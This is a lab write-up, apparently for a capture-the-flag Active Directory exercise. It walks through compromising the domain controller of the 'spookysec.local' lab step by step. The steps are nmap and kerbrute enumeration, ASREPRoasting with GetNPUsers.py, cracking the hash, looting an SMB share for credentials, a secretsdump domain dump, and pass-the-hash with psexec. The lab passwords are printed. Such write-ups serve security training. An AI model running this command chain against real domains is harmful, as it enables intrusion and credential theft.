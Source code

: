 # Acttacktive Directory

## Step 1: Tools and Scripts Requirements

1. [impacket]("https://github.com/SecureAuthCorp/impacket")

2. [kerbrute]("https://github.com/ropnop/kerbrute/releases")

## Step 2: Enumeratation

- scan the ports and domain name using nmap

`nmap -A -p- 10.10.189.50`

- now we got the domain name **spookysec.local** and useful ports and services are running is on.

- now enumerate deeply using kerbrut tool with given usernames and check which user is present in AD

`kerbrute userenum -d spookysec.local --dc 10.10.189.50 uname.txt`

- Here we got bunch of users list

**Note: It is NOT recommended to brute force credentials due to account lockout policies that we cannot enumerate on the domain controller.**

## Step 3: Abuse target

- we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

- Impacket has a tool called "GetNPUsers.py".

- GetNPUsers.py allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

`GetNPUsers.py spookysec.local/svc-admin -no-pass`

- Woooow, we got an long hash string.

- Now decrypt the hash using john repper tool and we will get password **management2005**

## Step 4: Back to Basic Enumeration

- Now we have username and password, so try to get some information from that account using `smbclient`.

`smbclient -L 10.10.189.50 -U svc-admin`

- It will show up some useful directories, like Admin, IPC, C, NETLOGON, SYSVOL, backup this all are normal to be there except one backup.

- this backup directory have some important file **backup_credentials.txt**

- There is base64 string is look like, after the dcrypt we got a username with password **backup@spookysec.local:backup2517860**

## Step 5: Elevating Privileges with the Domain

- Using this cridintial try to login into that account.

- we can successfuly login but we can't get the access of the administrator account or we can't dump the other users passwords.

- So try to dump the password of other users.

`secretsdump.py spookysec.local/backup:"backup2517860"@10.10.189.50 -just-dc`

- Now we got the hashes from "backup" user.

- Now simply pass the username and hash in `psexec.py`

`psexec.py Administrator@10.10.189.50 -hashes ajhsdjfahsdjfgajsdfkjashdkf:ajsgdjfhakjsdgfkjasgdfkjh`

- And we get access to the administrator account.
